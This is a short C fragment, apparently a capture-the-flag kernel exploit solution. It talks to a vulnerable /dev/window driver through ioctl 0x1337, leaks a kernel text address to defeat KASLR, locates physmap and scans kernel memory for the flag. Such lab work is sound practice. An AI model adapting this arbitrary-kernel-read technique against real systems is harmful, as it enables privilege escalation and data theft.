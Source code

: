 ```c
} request_t;

int main()
{
    request_t req = {0};
    uint64_t kernel_text = 0;
    uint64_t offt = 0;

    int fd = open("/dev/window", O_RDWR);
    if (fd < 0) {
        return -1;
    }

    req.kptr = 0xfffffe0000002f50; 
    if (ioctl(fd, 0x1337, &req)) {
        return -1;
    }

    kernel_text =  ((uint64_t* )req.buf)[0] - 0x1000b59;
    printf("[!] kernel .text found at %lx\n", kernel_text);
    printf("[!] physmap at %lx\n", kernel_text + 0x2c3b000);

    while (1) {
        req.kptr = kernel_text + 0x2c00000 + offt;
        if (ioctl(fd, 0x1337, &req)) {
            return -1;
        }

        for (size_t i = 0; i < 0x100; i += 4) {
            if (!memcmp(req.buf+i, "ictf", 4)) {
                printf("flag: %s\n", (char* )(req.buf+i));
            }
        }

        offt += 0x100;
    }

    close(fd);
    return 0;
}
```